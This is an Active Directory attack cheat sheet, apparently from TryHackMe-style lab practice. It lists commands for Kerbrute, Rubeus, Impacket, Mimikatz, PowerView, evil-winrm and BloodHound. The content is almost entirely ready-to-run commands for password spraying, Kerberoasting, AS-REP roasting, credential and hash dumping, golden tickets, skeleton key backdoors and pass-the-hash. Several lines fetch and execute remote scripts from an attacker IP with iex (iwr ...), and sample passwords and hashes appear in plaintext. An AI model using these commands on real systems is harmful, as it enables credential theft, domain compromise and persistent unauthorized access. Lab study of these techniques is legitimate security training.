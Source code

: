 #KERBRUTE
##Path
~/hack/tools/kerbrute-1.0.3

##Available Commands:
  bruteforce    Bruteforce username:password combos, from a file or stdin
  bruteuser     Bruteforce a single user's password from a wordlist
  help          Help about any command
  passwordspray Test a single password against a list of users
  userenum      Enumerate valid domain usernames via Kerberos
  version       Display version info and quit

##Enumeration
./kerbrute userenum --dc CONTROLLER.local -d CONTROLLER.local User.txt

##Password Spray
./kerbrute_linux_amd64 passwordspray --dc controller.local -d controller.local ./wordlist.txt Password1

#RUBEUS

##Harvest TGT's from Host
Rubeus.exe harvest /interval:30 

##Password Spray
Rubeus.exe brute /password:Password1 /noticket

##Kerberoast
Rubeus.exe kerberoast
hashcat -m 13100 -a 0 hash.txt Pass.txt

##AS-REP Roasting -Pre-Auth Disabled
	* Rubeus.exe asreproast  - This will run the AS-REP roast command looking for vulnerable users and then dump found vulnerable user hashes
	* Crack those Hashes w/ hashcat - 
		○ 1.) Transfer the hash from the target machine over to your attacker machine and put the hash into a txt file
		○ 2.) Insert 23$ after $krb5asrep$ so that the first line will be $krb5asrep$23$User.....
		○ 3.) hashcat -m 18200 hash.txt Pass.txt - crack those hashes! Rubeus AS-REP Roasting uses hashcat mode 18200
	

#IMPACKET

##KERBEROAST
Kerberoast - EXECUTED REMOTELY FROM KALI, ENUMRATES AND REQUESTS ALL KERBEROASTABLE ACCOUNTS
sudo python3 GetUserSPNs.py controller.local/Machine1:Password1 -dc-ip 10.10.105.214 -request

##AS-REP Roasting
GetNPUsers.py
GetNPUsers.py <DOMAIN NAME>/ -no-pass -usersfile usernames.txt

##Dump Secrets
secretsdump.py thm-ad/backup:'backup2517860'@thm-ad

#MIMIKATZ

##Download and Dump Creds
iex (iwr http://10.9.80.37/Invoke-Mimikatz.ps1 -UseBasicParsing);Invoke-Mimikatz -DumpCreds

##Dump Hashes
Invoke-Mimikatz -Command '"lsadump::lsa /patch"'
hashcat -m 1000 <hash> rockyou.txt

##Export Tickets
Invoke-Mimikatz -Command '"sekurlsa::tickets /export"'

##Pass the Ticket
 Invoke-Mimikatz -Command '"kerberos::ptt [0;59dfa]-2-0-40e10000-Administrator@krbtgt-CONTROLLER.LOCAL.kirbi"'

##Golden Ticket Attack

	1. Execute mimikatz on DC as DA to get krbtgt hash
		a. Invoke-Mimikatz -Command '"lsadump::lsa /patch"' –Computername dcorp-dc 
	2. On any machine 
		a. Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:domain.local /sid:S-1-5-21-1874506631-3219952063-538504511 /krbtgt:ff46a9d8bd66c6efd77603da26796f35 /id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'

To use the DCSync feature for getting krbtgt hash execute the below command with DA privileges: 
	• Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\krbtgt"' 
Using the DCSync option needs no code execution (no need to run Invoke-Mimikatz) on the target DC

Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:domain.local /sid:S-1-5-21-432953485-3795405108-1502158860 /krbtgt:72cd714611b64cd4d5550cd2759db3f6 /id:500 /groups:512 /ptt"'

##Skeleton Key
Invoke-Mimikatz -Command '"misc::skeleton"'

#POWERVIEW

iex (iwr http://10.9.80.37/PowerView3.ps1 -UseBasicParsing)

#EVIL-WINRM

##PTH
evil-winrm -i thm-ad -u administrator -H 0e0363213e37b94221497260b0bcb4fc

#BLOODHOUND

iex (iwr http://10.9.80.37/SharpHound.ps1 -UseBasicParsing)
Invoke-BloodHound -CollectionMethod ALL
